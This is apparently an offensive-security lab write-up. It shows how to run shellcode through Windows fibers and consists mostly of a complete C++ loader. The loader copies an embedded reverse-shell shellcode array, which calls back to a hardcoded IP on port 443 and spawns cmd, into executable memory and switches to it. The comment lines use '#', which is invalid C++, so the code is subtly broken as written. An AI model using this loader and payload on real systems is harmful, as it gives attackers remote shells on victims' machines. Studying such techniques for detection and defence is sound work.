

# Shellcode Execution through Fibers

## Overview

The purpose of this lab is to use Windows APIs targetting `fibers` to execute shellcode in a local process.

> A _fiber_ is a unit of execution that must be manually scheduled by the application. Fibers run in the context of the threads that schedule them.   
> [https://docs.microsoft.com/en-us/windows/win32/procthread/fibers](https://docs.microsoft.com/en-us/windows/win32/procthread/fibers)

## Technique

The process of the executing shellcode in a local process through fibers:

1. Convert the main thread to a fiber. This is required, because only one fiber can schedule another fiber.
2. Write shellcode to some memory location and make it executable
3. Create a new fiber that points to the shellcode location - this is the fiber we will be scheduling from the fiber we got in step 1 when converting the main thread to a fiber.
4. Schedule the newly created fiber that points to our shellcode
5. The fiber gets scheduled and shellcode executes

## Code

Below is the code showing how to execute the shellcode using fibers:

```cpp
#include <Windows.h>

int main()
{
	#convert main thread to fiber
	PVOID mainFiber = ConvertThreadToFiber(NULL);

 	unsigned char shellcode[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\xac\x14\x0a\x07\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

	PVOID shellcodeLocation = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	memcpy(shellcodeLocation, shellcode, sizeof shellcode);

	#	create a fiber that will execute the shellcode
	PVOID shellcodeFiber = CreateFiber(NULL, (LPFIBER_START_ROUTINE)shellcodeLocation, NULL);
	
	# manually schedule the fiber that will execute our shellcode
	SwitchToFiber(shellcodeFiber);

	return 0;
}
```

Running the code executes the shellcode us a reverse shell:



## References







